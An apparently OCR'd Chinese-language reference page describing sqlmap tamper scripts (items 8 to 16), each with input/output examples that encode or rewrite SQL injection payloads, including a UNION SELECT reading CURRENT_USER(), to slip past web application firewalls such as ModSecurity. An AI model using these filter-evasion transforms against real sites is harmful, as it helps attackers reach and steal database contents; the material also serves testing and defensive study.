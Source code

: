 ```
Input: SELECT FIELD FROM%20TABLE
Output: %2553%2545%254c%2545%2543%2554%2520%2546%2549%2545%254c%2544%2520%2546%2552%254f%254d%2520%2554%2541%2542%254c%2545

(8) charencode.py url编码
Example:
Input: SELECT FIELD FROM%20TABLE
Output: %53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45

(9) charunicodeencode.py 对未进行url编码的字符进行unicode编码
Example:
Input: SELECT FIELD%20FROM TABLE
Output: %u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045'
Requirement:
ASP
ASP.NET

(10) equaltolike.py 以”like”替代”=“
Example:
Input: SELECT FROM users WHERE id=1
Output: SELECT FROM users WHERE id LIKE 1

(11) halfversionedmorekeywords.py在每个关键字前添加条件注释
Example:
Input: value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa
Output: value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)), NULL, NULL#/*!0AND 'QDWa'='QDWa
Requirement:
MySQL < 5.1

(12) ifnull2ifisnull.py 以”IF(ISNULL(A), B, A)”替换”IFNULL(A, B)”
Example:
Input: IFNULL(1, 2)
Output: IF(ISNULL(1), 2, 1)
Requirement:
MySQL
SQLite (possibly)
SAP MaxDB (possibly)

(13) modsecurityversioned.py 条件注释
Example:
Input: 1 AND 2>1--
Output: 1 /*!30000AND 2>1*/--
Requirement:
MySQL

(14) modsecurityzeroversioned.py 条件注释，0000
Example:
Input: 1 AND 2>1--
Output: 1 /*!00000AND 2>1*/--
Requirement:
MySQL

(15) multiplespaces.py 添加多个空格
Example:
Input: UNION SELECT
Output:  UNION   SELECT

(16) nonrecursivereplacement.py 可以绕过对关键字删除的防注入（这个我也不知道怎么说好，看例子。。。）
Example:
```